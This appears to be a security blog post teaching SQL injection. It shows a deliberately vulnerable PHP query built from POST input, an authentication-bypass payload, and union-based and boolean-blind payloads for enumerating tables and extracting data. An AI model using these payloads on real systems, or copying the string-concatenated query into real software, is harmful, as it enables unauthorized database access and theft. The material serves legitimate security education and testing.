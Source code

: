 ```yaml
---
layout: post
title: "SQL Injection Fundamentals and Advanced Techniques"
date: 2025-07-21 10:00:00 +0000
categories: [Web Security, Penetration Testing]
tags: [sql-injection, web-security, testing, databases, burp-suite]
---
```


# SQL Injection Fundamentals and Advanced Techniques

SQL injection remains one of the most critical web application vulnerabilities. This comprehensive guide covers everything from basic concepts to advanced exploitation techniques used by security professionals.

## Understanding SQL Injection

SQL injection occurs when user input is incorrectly sanitized and directly concatenated into SQL queries, allowing attackers to manipulate database logic.

### Basic Example

```php
// Vulnerable code
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";

// Attack payload
username: admin' OR '1'='1' --
```

## Types of SQL Injection

### 1. Union-Based Injection

Extract data by combining results from multiple queries.

```sql
-- Determine number of columns
' ORDER BY 10--

-- Extract data
' UNION SELECT 1,2,3,database()--
' UNION SELECT 1,table_name,3 FROM information_schema.tables--
```

### 2. Boolean-Based Blind Injection

Infer information based on application behavior changes.

```sql
-- Test for vulnerability
' AND 1=1--  (normal response)
' AND 1=2--  (different response)

-- Extract data character by character
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--
```
